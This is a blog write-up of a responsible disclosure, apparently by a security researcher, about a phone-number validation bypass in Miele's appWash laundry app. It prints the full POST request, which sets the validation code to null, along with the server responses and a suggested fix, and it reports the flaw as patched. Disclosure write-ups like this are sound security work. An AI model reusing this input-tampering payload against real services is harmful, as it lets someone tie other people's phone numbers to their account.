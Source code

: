 ```yaml
---
layout: post
title:  "Write-up Miele appWash"
categories: security android
permalink: "/appwash-writeup/"
show_excerpts: True
---
```

Bypassing number validation and completing my first responsible disclosure.

# Background
When entering the wrong number validation code in an app used to pay for laundry, I saw some weird behavior.
As expected it gave an error about the code not matching but it sent the same code again and let me enter the rest of the registration information.
When submitting the information I got the error again but no new SMS.
This prompted me to look into the internet traffic and I found some interesting things.

When I contacted Miele's incident response team they got back to me the following morning and resolved the issue within two weeks!
I have also been added to their [hall of thanks](https://www.miele.com/en/com/cybersecurity-5047.htm#p5052) which is nice.

# Summary  
The number validation can be bypassed without use of the validation code.  
By bypassing the validation someone could link any phone number to their account.

Note:  
The validation code does not seem to expire after wrong attempts so a brute-force attack might also be possible.

# Proof of Concept  
> This doesn't work anymore of course  

For this proof of Concept I used a secondary phone number, and the verification code was: `24062`, but knowing the code is not necessary.

The app submits the data with the following POST request:  
In the request I replaced `"validationCode":"12345"` with `"validationCode":null`

``` c
POST /api-rest/account HTTP/1.1
language: en
platform: appwash
Content-Type: application/json
Content-Length: 686
Host: www.involtum-services.com
Connection: close

{"salutations":"m",
"businessName":null,
"firstName":"X",
"lastName":"X",
"email":"placeholder@email.com",
"street":"X",
"zip":"X",
"city":"X",
"country":"BE",
"invoice_street":null,
"invoice_street2":null,
"invoice_zip":null,
"emailNotification":true,
"invoice_city":null,
"invoice_country":null,
"invoice_language":"en",
"language":"en","iban":"",
"bic":"",
"chamberOfCommerce":null,
"automatic_collection":false,
"account_prepaid":true,
"userName":"placeholder@email.com",
"validationCode":null,
"password":"password",
"mobile":[{
          "mobile":"+31622425986",
          "notification":false,
          "locked":false
         }],
"pushNotification":true,
"locationExternalId":null,
"tcAcceptedAnswer":"ACCEPTED",
"tcVersion":"1",
"currency":"EUR"}
```

# Observed Result  
The Account is created successfully and the server reacted with this result:

``` c
HTTP/1.1 200 OK
Date: Wed, 22 Jul 2020 17:41:31 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
Strict-Transport-Security: max-age=63072000; includeSubDomains
X-Frame-Options: sameorigin
Content-Type: application/json
Cache-Control: no-cache, no-store, no-transform, must-revalidate, max-age=0
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: origin,content-type,accept,authorization,filter,language,platform,token
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET,POST,PUT,PATCH,DELETE,OPTIONS,HEAD
Access-Control-Max-Age: 29030400
Content-Length: 430
Connection: close

{
  "errorCode":0,
  "errorDescription":"",
  "token_expire_ts":0,
  "serverTime":1595439691,
  "errorDetailMessage":"",
  "activeSessions":[],
  "login":{"email":"placeholder@email.com",
           "password":null,
           "username":"placeholder@email.com",
           "externalId":"73252001",
           "language":"EN",
           "token":"2ea4ddd8:17352a3ed54:-6d70",
           "offlineAllowed":true,
           "manageOthers":true,
           "startMultiple":true,
           "startForOthers":false,
           "fcmToken":null,
           "appOS":null,
           "appVersion":null
         }
}
```
I could also successfully log into the app!  
![image could not be loaded](/assets/appwash_screenshot.webp){: style="padding:16px"}

# Expected Result  
A server response like the one when you enter a wrong validation code, or another error.

``` c
HTTP/1.1 200 OK
Date: Wed, 22 Jul 2020 17:26:54 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
Strict-Transport-Security: max-age=63072000; includeSubDomains
X-Frame-Options: sameorigin
Content-Type: application/json
Cache-Control: no-cache, no-store, no-transform, must-revalidate, max-age=0
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: origin,content-type,accept,authorization,filter,language,platform,token
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET,POST,PUT,PATCH,DELETE,OPTIONS,HEAD
Access-Control-Max-Age: 29030400
Content-Length: 235
Connection: close

{
  "errorCode":41,
  "errorDescription":"This validation code doesn't seem to be correct. Please check the validation code. (code 41)",
  "token_expire_ts":0,
  "serverTime":1595438814,
  "errorDetailMessage":null,
  "activeSessions":null,
  "login":null
}

```

# Possible mitigation
I suspect implementing server-side type checking would resolve this particular issue.   
However, this would not help against a possible brute-force attack.
